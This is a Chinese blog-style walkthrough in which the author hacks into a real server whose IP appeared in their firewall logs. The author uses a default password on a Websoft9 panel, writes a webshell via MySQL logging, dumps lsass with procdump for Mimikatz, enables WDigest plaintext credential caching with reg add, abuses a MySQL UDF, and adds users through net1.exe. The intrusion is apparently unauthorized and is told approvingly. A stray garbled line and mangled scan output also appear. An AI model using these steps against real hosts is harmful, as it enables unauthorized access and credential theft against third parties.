

# 追踪攻击源头 从IP地址到攻击者身份的溯源之旅

## 背景

每天在防火墙上会看到攻击者IP，心生好奇，想了解这些攻击者的机器是什么样子，于是就有了这篇文章。


## 信息收集

我使用了简单的 nmap 和 fofa 工具查看了一下。目标机器开放了多个端口，其中有几个是 web 服务，服务器是 Windows。这次的目标只是登录目标服务器查看，不进行其他操作。


```bash
Nmap scan report for 49.233.xx.xxHost is up (0.18s latency).Not shown: 990 closed portsPORT      STATE SERVICE            VERSION80/tcp    open  http               Apache httpd135/tcp   open  msrpc              Microsoft Windows RPC139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn443/tcp   open  ssl/https          Apache445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds3389/tcp  open  ssl/ms-wbt-server?49152/tcp open  msrpc              Microsoft Windows RPC49153/tcp open  msrpc              Microsoft Windows RPC49154/tcp open  msrpc              Microsoft Windows RPC49155/tcp open  msrpc              Microsoft Windows RPCService Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nm
```


## 开始

访问该地址的 80 端口时，自动跳转到了一个 Websoft9 的运维页面。



我查了一下 Websoft9 这个软件，主要用于提供软件的自动化部署，帮助客户在云服务器上简化企业级软件的安装部署。第一眼看到页面，最先看到的是网站根目录，然后下面的账号密码（这不能是真的吧），然后左侧的功能栏里还有数据库管理、phpinfo功能。看起来，这... 这是在勾引我吗？


好的，试一试也没什么坏处（手动滑稽~）。


我进去了...在以前看过的公众号实战文章中，经常看到大佬们用弱口令成功登录，我曾经自嘲为什么我就碰不到这样的站。也许是因为我缺乏经验。

## webshell

好的，我们可以使用 MySQL 的日志方式来写入一个 webshell。既然我们知道了网站的根目录，我们可以在 MySQL 中执行一些命令来创建一个 webshell 文件。C:\wwwroot\。


写入后访问时报 not found，怀疑是根路径有问题。于是我通过 Websoft9 自带的 phpinfo 查看 DOCUMENT_ADDR 确认，发现根路径为 C:\wwwroot\www.example.com\。这时我才想起要仔细查看 phpinfo，信息收集在渗透测试中相当重要啊。


重新尝试写入 webshell。


看来成功了啊，那就太好了！


连接成功了，太好了！


连接成功后查看权限，发现是系统权限，哇，相当高的权限。


查看一下是否安装了杀毒软件，结果发现没有安装。

```bash
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

很抱歉，我无法解读乱码的内容。

------

```bash
错误：描述 = 无效命名空间No Antivirus installed
```

看起来一切都很顺利啊！3389端口是远程桌面协议（RDP）的默认端口，确实是远程连接的端口。

## 尝试获取管理员密码

试试上传 procdump64 并导出内存文件 lsass.exe 为 dmp 文件，以尝试获取管理员密码。


```bash
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

下载dmp文件时失败了，可能是因为网速太慢，代理不够好。提醒一下，如果目标主机的网速慢，蚁剑连接、上传/下载文件等操作可能会失败。


直接访问该文件进行下载。


使用 Mimikatz 进行解析，结果没有找到明文密码，果然失败了。


在 Windows Server 2012 R2 Datacenter 上使用 Mimikatz 获取明文密码似乎不太容易，即使是通过 procdump64 导出内存再解析也无法成功。但可以尝试修改注册表来实现。你可以使用以下命令在注册表中新建一个名为 UseLogonCredential 的 DWORD 项，并将其值设置为 1。

```bash
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /d 1 /t REG_DWORD /f
看来修改注册表确实有效呢，不错不错！
```


尝试重载 explorer.exe 进程似乎不太理想，它可能会关闭已经打开的窗口，并且并不能保证注册表的更新成功。

```bash
taskkill /f /im explorer.exeexplorer.exe
```

更新注册表最可靠的方式可能是重启系统。

## 尝试添加新用户

新建用户时没有回显可能让你不确定是否成功。尝试先输入命令，然后检查是否成功。但在尝试远程登录时失败了。起初以为是工具的问题，尝试了另一个工具“哥斯拉”，但结果依然不行。看来问题不在于工具，而是在于我自己。


既然尝试了其他方法不行，不妨试试使用 udf 提权的方式。虽然你已经有了 system 权限（捂脸哭），可以尝试使用 MySQL 的 sys_exec() 或者 sys_eval() 来执行命令。确保 MySQL 版本大于 5.1，将 udf.dll 文件放置在 MySQL 安装目录的 lib\plugin 文件夹下。如果目录不存在，可以新建一个。你可以在 sqlmap 中找到 udf.dll，但需要先解码。解码工具在 sqlmap/extra/cloak/cloak.py，使用以下命令解码： 

```bash
python .\cloak.py -d -i D:\tool\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
解码完成后会在 32 或 64 位的目录下生成 dll 文件。
```

在尝试之前，先查看 MySQL 的版本信息，确定需要使用哪个位数的 dll 文件。这个位数不是操作系统的位数，而是 MySQL 软件的位数。还要查看 MySQL 的安装目录位置（phpinfo 中也有）。


尝试上传 udf.dll 文件到 MySQL 的插件目录。

上传成功后，尝试创建函数。关于为什么不直接使用蚁剑的数据库功能执行语句，可能是因为无法连接上数据库吧！

```bash
create function sys_exec returns string soname "lib_mysqludf_sys.dll";
```

尝试创建用户。


我在靶机（Win7，PHPStudy）上测试了一下，虽然返回 NULL，但用户确实正常添加了。不过，我们不确定用户是否真的被添加了。尝试远程连接一下，看看能不能成功！失败了。之后又尝试了 sys_eval()，虽然可以执行 echo 命令，但 net 命令依然失效。

## copy net1的绝杀

看起来 net 命令无法使用了，但在目标系统中有一个文件，是 net1.exe。这让我想起了之前在乌云安全上看到的一篇文章，链接是：https://mp.weixin.qq.com/s/XLa41N0d4TsOMllgo5QEvQ。是的，遇到的情况与文章中描述的情况非常相似，都是在 Windows Server 2012 系统上，无法使用 net 命令，但具有 system 权限。虽然作者的情况更加复杂，但也可以试着尝试一下。


成功了，太好了！


关于 net 和 net1 命令的关系，你可以参考以下链接：

```bash
https://blog.51cto.com/xxcmd/1151515  http://www.safebase.cn/article-124482-1.html
```

## 总结

本次渗透看起来并不太复杂，比较简单，文章的深度也有限。我观察了一下这台主机，它不太像安全人员使用的主机，反而更像是沦陷的“肉鸡”。不过话说回来，我们在 HW 期间确实有不少人使用自己购买的云主机进行扫描等活动，有些甚至搭建了靶机。我个人认为最好还是为这些活动挂上代理之类的工具，安全人员也要注意自己的安全。

这次测试纯属运气，一个弱口令解决了太多的问题，直接跳过了 web 方面的测试，我也深深感受到了弱口令带来的危害。